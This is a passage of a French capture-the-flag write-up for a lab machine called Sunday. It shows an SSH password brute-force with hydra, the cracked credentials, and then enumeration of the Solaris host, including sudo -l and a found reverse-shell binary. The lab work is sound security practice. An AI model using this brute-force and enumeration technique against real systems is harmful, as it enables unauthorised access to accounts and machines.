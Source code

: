 Faute de mieux on brute-force le compte et on se trouve un peu bête devant le mot de passe trouvé :  

```plain
devloop@kali:~$ hydra -l sunny -P /usr/share/ncrack/top50000.pwd ssh://10.10.10.76:22022
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-06-14 21:30:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50084 login tries (l:1/p:50084), ~3131 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 484.00 tries/min, 484 tries in 00:01h, 49600 to do in 01:43h, 16 active
[STATUS] 488.33 tries/min, 1465 tries in 00:03h, 48619 to do in 01:40h, 16 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-06-14 21:35:16
```

On obtient alors notre accès sur la machine mais pas encore de flag.  

```plain
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris

sunny@sunday:~$ w
  9:37am  up  2:20,  6 users,  load average: 0,71, 1,73, 1,30
User     tty           login@  idle   JCPU   PCPU  what
sunny    pts/2         7:18am     1                -bash
sunny    pts/3         7:31am    59      4         -bash
sunny    pts/4         8:23am     3      5      4  vim
sammy    pts/5         9:08am            4         crontab
sunny    pts/7         9:35am                      -bash
sunny    pts/8         9:35am                      w
```

Je trouve quelques fichiers bizarres sur la machine :  

```plain
sunny@sunday:~$ file ./Desktop/core
./Desktop/core: ELF 32-bit LSB core file 80386 Version 1, from 'packagemanager'
sunny@sunday:~$ file ./Downloads/reverse.solaris.x86.1337.elf
./Downloads/reverse.solaris.x86.1337.elf:       ELF 32-bit LSB executable 80386 Version 1, statically linked, stripped
```

Le second est potentiellement le reverse-shell d'un autre participant. Quand au core dump on laisse de côté pour le moment.  

Il y a un programme utilisable via sudo mais qui ne semblait pas exploitable via des failles classiques :  

```plain
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ bash --version
GNU bash, version 3.2.25(1)-release (i386-pc-solaris2.11)
Copyright (C) 2005 Free Software Foundation, Inc.
```
